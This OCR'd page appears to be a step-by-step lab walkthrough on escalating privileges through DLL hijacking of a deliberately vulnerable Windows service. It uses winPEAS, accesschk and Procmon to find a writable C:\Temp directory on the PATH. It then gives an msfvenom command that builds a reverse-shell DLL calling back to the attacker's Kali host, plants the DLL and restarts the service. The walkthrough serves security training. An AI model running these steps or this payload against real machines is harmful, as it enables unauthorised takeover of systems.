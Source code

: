 1.Use winPEAS to enumerate non-Windows services:
> .\winPEASany.exe quiet servicesinfo


2.Note that the C:\Temp directory is writable and in the PATH. 

Start by enumerating which of these services our user has stop and start access to:
> .\accesschk.exe /accepteula -uvqc user dllsvc


3.The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. 

We can confirm this manually:
> sc qc dllsvc

4.Run Procmon64.exe with administrator privileges. Press
Ctrl+L to open the Filter menu.

5.Add a new filter on the Process Name matching
dllhijackservice.exe.

6.On the main screen, deselect registry activity and
network activity.

7.Start the service:
> net start dllsvc


8.Back in Procmon, note that a number of “NAME NOT
FOUND” errors appear, associated with the hijackme.dll file.

9.At some point, Windows tries to find the file in the C:\Temp
directory, which as we found earlier, is writable by our user.

10. On Kali, generate a reverse shell DLL named hijackme.dll:

 msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.1.11 LPORT=53 -f dll -o
hijackme.dll


11. Copy the DLL to the Windows VM and into the C:\Temp directory. 

Start a listener on Kali and then stop/start the service to trigger the exploit:
> net stop dllsvc
> net start dllsvc